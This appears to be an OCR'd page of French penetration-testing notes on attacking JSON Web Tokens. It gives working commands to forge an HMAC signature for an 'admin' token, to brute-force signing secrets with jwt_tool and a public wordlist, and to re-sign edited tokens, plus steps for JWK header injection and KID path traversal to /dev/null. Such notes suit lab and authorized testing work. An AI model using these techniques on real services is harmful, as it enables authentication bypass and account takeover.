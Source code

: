 ```bash
echo -n "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0" | openssl dgst -sha256 -mac HMAC -macopt hexkey:<keyhexa>
```

Convertir le SHA256 en Base64url:

```bash
python2 -c "exec(\"import base64, binascii\nprint base64.urlsafe_b64encode(binascii.a2b_hex('18e61fe88b59882f438a11b324a3e03f659254860eb6d01373ade444a0a37044')).replace('=','')\")"
```

l'ajouter au token

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.<signatureb64url>
```

## Bruteforce de secret

wordlist -> https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list

```bash
python3 -m pip install termcolor cprint pycryptodomex requests --break-system-packages
```

```bash
python3 Desktop/tools/WEB/JWT/jwt_tool/jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJyb2xlIjoiZ3Vlc3QifQ.4kBPNf7Y6BrtP-Y3A-vQXPY9jAh_d0E6L4IUjL65CvmEjgdTZyr2ag-TM-glH6EYKGgO3dBYbhblaPQsbeClcw -d jwt.secrets.list -C
```

Editer les valeurs et signer le token avec la clé secrète trouvée précédemment

```bash
python3 Desktop/tools/WEB/JWT/jwt_tool/jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJyb2xlIjoiZ3Vlc3QifQ.4kBPNf7Y6BrtP-Y3A-vQXPY9jAh_d0E6L4IUjL65CvmEjgdTZyr2ag-TM-glH6EYKGgO3dBYbhblaPQsbeClcw -T -S hs512 -p "key"
```


## JWK HEADER Injection

Dans Burp JWT Editor

1. Ajouter une clé RSA (generate)
2. dans BURP repeater aller dans JWT
3. Attack -> Embedded JWK

## KID HEADER Injection

> [!TIP]
> Le KID permet au serveur d'identifier la clé à utiliser pour vérifier la signature.
> 
> Mais pas de structure concrete pour cet ID .
> 
> Tester directory traversal dans le KID en le faisant pointer vers un fichier qui contient du contenu que nous connaissons (une page web par exemple).
> Générer une signature en utilisant le contenu du fichier en question comme secret.
> 
> /proc/sys/kernel/ftrace_enabled -> contenu à 0 ou 1 -> certaines applications check si le fichier de signature est vide donc peut ne pas marcher -> dans ce cas pointer vers une page du serveur web.
> 
> alternative -> pointer vers /dev/null qui ne contient rien et enlever la signature
